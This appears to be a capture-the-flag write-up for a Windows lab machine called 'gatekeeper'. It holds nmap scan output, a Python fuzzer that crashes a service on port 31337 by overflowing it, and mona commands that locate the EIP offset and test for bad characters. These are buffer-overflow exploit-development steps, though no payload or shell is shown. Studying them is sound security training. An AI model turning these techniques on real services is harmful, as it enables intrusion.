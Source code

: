 # gatekeeper

* SCAN
```
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
31337/tcp open  Elite
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49161/tcp open  unknown
```

* FUZZ
```
#!/usr/bin/env python3

import socket, time, sys

ip = "127.0.0.1"

port = 31337
timeout = 5
prefix = ""
string = prefix + "A" * 150

while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((ip, port))

            print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
            s.send(bytes(string + '\n', 'utf8'))
            s.recv(1024)
    except Exception as e:
        print("Fuzzing crashed at {} bytes {}".format(len(string) - len(prefix), e))
        sys.exit(0)
    string += 10 * "A"
    time.sleep(1)
```

## Get offset
- Precise offset so that we can overwrite EIP with the offset + vals.
- Generate cyclic pattern of length 200
- `!mona findmsp -l 200`
- EIP offset 146
- or use EIP val - 36954138
```
thehive:exploit»./pattern_offset.rb -q 39654138
[*] Exact match at offset 146
```

!mona config -set workingfolder c:\mona\%p
!mona bytearray -b '\x00'
!mona compare -f C:\mona\gatekeeper\bytearray.bin -a 00af19e4


## MISC
* `!mona modules` to get additional info about program eg. ASLR status
* https://www.howtogeek.com/278056/what-is-aslr-and-how-does-it-keep-your-computer-secure/


